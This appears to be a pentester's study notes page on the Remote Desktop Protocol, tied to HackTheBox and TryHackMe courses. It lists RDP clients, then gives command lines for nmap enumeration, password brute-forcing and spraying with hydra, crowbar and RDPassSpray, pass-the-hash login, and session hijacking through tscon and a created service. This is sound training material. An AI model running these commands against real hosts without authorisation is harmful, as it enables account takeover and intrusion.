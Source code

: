 # Remote Desktop Protocol (RDP)

[![windowsfundamentals](../../../cybersecurity/_badges/htb/windowsfundamentals.svg)](https://academy.hackthebox.com/course/preview/windows-fundamentals)
[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Remote Desktop Protocol (RDP) is a protocol used to access a  desktop with a graphical interface from another computer over a network connection.

🐊️ **Port**: 3389 <small>(TCP or rarely UDP)</small>

On Windows, there is the built-in Windows RDP Client: `mstsc.exe`.

There is [rdesktop](https://github.com/rdesktop/rdesktop) (1.1k ⭐).

There is [FreeRDP](https://github.com/FreeRDP/FreeRDP) (7.5k ⭐), and there is a graphical version too [xfreerdp-gui](https://github.com/wyllianbs/xfreerdp-gui) (29 ⭐).

```shell!
$ xfreerdp /u:username /p:password /v:IP
$ xfreerdp /u:username /pth:hash /v:IP
$ xfreerdp /dynamic-resolution +clipboard /timeout:50000 /cert:ignore /v:IP /u:x /p:y
```
</div><div>

There is [Remmina](https://github.com/FreeRDP/Remmina) (1.9k ⭐, `apt install remmina`) which has an easy-to-use graphical interface.

* `remmina`: start the graphical interface
  * Enter the IP of the target
  * Enter the credentials
  * Connect
* Then, I would advise toggling "dynamic resolution update" in the left menu, so that you have a bigger screen.
* In preferences, we should be able to select a keyboard mapping <nobr class="small text-muted">(⚠️ need check)</nobr>
* [You can scale the screen too](https://askubuntu.com/questions/1075098/remmina-scaling-options)
</div></div>

<hr class="sep-both">

## RDP Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Enumeration

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* Using [nmap](/cybersecurity/red-team/tools/scanners/ports/nmap.md) to run scripts

```ps
$ # nmap RDP cookies are leaving traces (--packet-trace)
$ sudo nmap -sV -sC -p 3389 --script rdp* 10.129.201.248
```

#### Foothold

[![password_attacks](../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![passwordattacks](../../../cybersecurity/_badges/thmp/passwordattacks.svg)](https://tryhackme.com/room/passwordattacks)

* The password may be weak and vulnerable to [brute force](/cybersecurity/red-team/s2.discovery/techniques/network/auth.md).

```shell!
$ hydra -L user.list -P password.list rdp://IP -V
$ crowbar -b rdp -s IP/32 -u username -C password.list -v -n 64
```

There is also [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) <small>(0.6k ⭐)</small>.

```ps
$ python3 RDPassSpray.py -u username -p password -t IP:port
$ python3 RDPassSpray.py -U usernames.lst -p password -t IP:port
$ python3 RDPassSpray.py [...] -d domain
$ python3 RDPassSpray.py [...] -T rdp_servers.lst
```
</div><div>

#### Exploitation

[![attacking_common_services](../../../cybersecurity/_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)

* **RDP Session Hijacking**: connect to another user session. On Windows, as admin, we can use [tscon](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon).

```ps
PS> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

On Windows Server prior to 2019 as a local administrator, we can use:

```ps
PS> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
PS> net start sessionhijack
```

#### Well-known CVEs

* [BlueKeep Vulnerability](https://en.wikipedia.org/wiki/BlueKeep) <small>(2019, RCE, unstable/BSoD)</small>

#### Additional Tools

* [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) <small>(0.2k ⭐, 2021 🪦)</small>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* ms-wbt-server (Windows RDP implementation)
* [Network Level Authentication (NLA)](https://en.wikipedia.org/wiki/Remote_Desktop_Services#Network_Level_Authentication)
</div><div>
</div></div>